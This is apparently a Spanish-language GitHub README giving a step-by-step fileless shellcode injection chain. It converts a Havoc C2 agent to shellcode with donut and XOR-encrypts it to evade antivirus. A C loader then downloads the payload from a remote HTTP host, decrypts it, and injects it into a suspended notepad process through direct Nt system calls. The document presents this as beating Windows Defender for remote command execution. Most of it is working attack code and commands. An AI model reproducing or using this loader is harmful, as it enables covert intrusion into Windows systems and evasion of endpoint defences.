 ﻿# filelessShellcodeInjection

## Generación del payload del agente de Havoc

A pesar de que en Havoc es posible generar directamente un shellcode del agente, prefiero convertir el payload `.exe` a C y posteriormente a binario, ya que en algunas situaciones me dió problemas el shellcode de Havoc.

![[/capturas/1.png]]
## Generación del Shellcode

Para convertir el ejecutable del agente generado por Havoc en un shellcode, utilizamos **donut**, una herramienta especializada en convertir PE/EXE a shellcode compatible para inyecciones en memoria. El comando utilizado fue:

```bash
donut -i payload.exe -a 2 -f 3 -o shellcode.c -e 1 -z 1 -b 1
```

Donut genera un archivo `shellcode.c` que contiene el shellcode codificado como una cadena de caracteres en formato `\xAA\xBB...`.

![[capturas/2.png]]
## Conversión a Binario

Una vez generado el `shellcode.c`, eliminamos la definición de la variable y el punto y coma del final para quedarnos únicamente con la cadena del shellcode. A continuación, se utiliza el siguiente script en Python para convertir esa cadena en un archivo binario:

```python
with open("shellcode.c", "r") as f:
    data = f.read()

data = data.replace("\\x", "").replace('"', '').replace(" ", "").strip()

binario = bytes.fromhex(data)

with open("shellcode.bin", "wb") as f:
    f.write(binario)
```

Este proceso produce un archivo binario puro (`shellcode.bin`), listo para ser manipulado o encriptado.

![[capturas/3.png]]
## Encriptación con XOR

Con el fin de evadir ciertos motores antivirus que detectan firmas de shellcode comunes, se opta por aplicar una encriptación simple con XOR utilizando una clave de un solo byte. Se utilizó el siguiente código para dicho propósito:

```python
from pwn import *

key = ord('z')

with open("shellcode.bin", "rb") as file:
    data = bytearray(file.read())

encriptado = bytearray()

p1 = log.progress("Encriptando datos: ")

for bytes in data:
    p1.status(bytes)
    encriptado.append(bytes ^ key)

with open("shellcode_encrypted.bin", "wb") as f:
    f.write(encriptado)
```

El resultado es un nuevo archivo llamado `shellcode_encrypted.bin`, el cual contiene el shellcode ofuscado mediante XOR.

![[capturas/4.png]]
## Servidor HTTP y Preparación

Para facilitar las pruebas, se utilizó el servidor **Apache2** que viene instalado por defecto en Kali Linux. El archivo `shellcode_encrypted.bin` se movió a la ruta `/var/www/html` para hacerlo accesible a través de una URL dentro de la red local.

```bash
sudo mv shellcode_encrypted.bin /var/www/html/
```

Asegurarse de que Apache esté corriendo:

```bash
sudo systemctl start apache2
```

## Descarga y Desencriptación en C

El programa en C comienza estableciendo una sesión HTTP utilizando la API `WinINet` de Windows:

```c
HINTERNET hInternet = InternetOpenA(NULL, INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
if (hInternet == NULL) {
    printf("[-] Error iniciando una sesión a www: %lu\n", GetLastError());
    return 1;
}
printf("[+] Conexion a www establecida\n");
```

Luego, se realiza una solicitud HTTP a la URL donde está alojado el shellcode encriptado:

```c
const char* url = "http://192.168.0.29/shellcode_encrypted.bin";

HINTERNET hFile = InternetOpenUrlA(hInternet, url, NULL, 0, INTERNET_FLAG_RELOAD, 0);
if (hFile == NULL) {
    printf("[-] Error abriendo una solicitud a %s: %lu\n", url, GetLastError());
    return 1;
}
printf("[+] Solicitud realizada a %s\n", url);
```

Se reserva memoria dinámica y se descarga el contenido del archivo remoto en un búfer:

```c
DWORD bytesLeidos = 0;
DWORD bytesTotales = 0;
BYTE* shellcodeBuffer = (BYTE*)malloc(1000000);
if (!shellcodeBuffer) {
    printf("[-] Error reservando memoria: %lu\n", GetLastError());
    return 1;
}

while (InternetReadFile(hFile, shellcodeBuffer + bytesTotales, 4096, &bytesLeidos) && bytesLeidos != 0) {
    bytesTotales += bytesLeidos;
    if (bytesTotales >= 1000000) {
        printf("[-] Se necesita más memoria para leer el shellcode: %lu\n", GetLastError());
        free(shellcodeBuffer);
        return 1;
    }
}
printf("[+] Shellcode descargado: %d bytes\n", bytesTotales);
```

Una vez descargado, se desencripta el shellcode mediante XOR utilizando la misma clave que se usó en la encriptación:

```c
char key = 'z';
for (int i = 0; i < bytesTotales; i++) {
    shellcodeBuffer[i] ^= key;
}
```

## Inyección en Proceso Remoto (Notepad)

Se crea un proceso suspendido del Notepad, que será el objetivo de la inyección:

```c
STARTUPINFOA si = { 0 };
PROCESS_INFORMATION pi = { 0 };

if (!CreateProcessA("C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, 0, CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
    printf("[-] Error abriendo el notepad: %lu\n", GetLastError());
    free(shellcodeBuffer);
    return 1;
}
printf("[+] Notepad abierto con PID: %d\n", pi.dwProcessId);
```

A continuación, se reserva memoria en el proceso remoto y se escribe el shellcode:

```c
PVOID baseAddress = NULL;
SIZE_T sShellcodeBuffer = bytesTotales;
PSIZE_T pSize = &sShellcodeBuffer;

Sw3NtAllocateVirtualMemory(pi.hProcess, &baseAddress, 0, pSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
printf("[+] Memoria reservada en proceso remoto en: %p\n", baseAddress);

Sw3NtWriteVirtualMemory(pi.hProcess, baseAddress, shellcodeBuffer, sShellcodeBuffer, NULL);
printf("[+] Shellcode escrito en la memoria del notepad: %d bytes\n", bytesTotales);
```

Finalmente, se crea un nuevo hilo en el proceso remoto que ejecuta el shellcode y se reanuda la ejecución del proceso:

```c
HANDLE hThread = NULL;
Sw3NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, pi.hProcess, baseAddress, NULL, FALSE, 0, 0, 0, NULL);
printf("[+] Hilo del shellcode creado y ejecutándose\n");

ResumeThread(pi.hThread);
printf("[+] Reanudando el proceso del notepad\n");
```

## Pruebas sobre Windows Defender

Arriba a la izquierda ejecuto el programa, debajo la comprobación de que la seguridad de Windows está activada y a la derecha el C2 más la ejecución remota de comandos.

![[capturas/5.png]]

Este es el output del programa y vemos que no da ningún error.

![[capturas/6.png]]
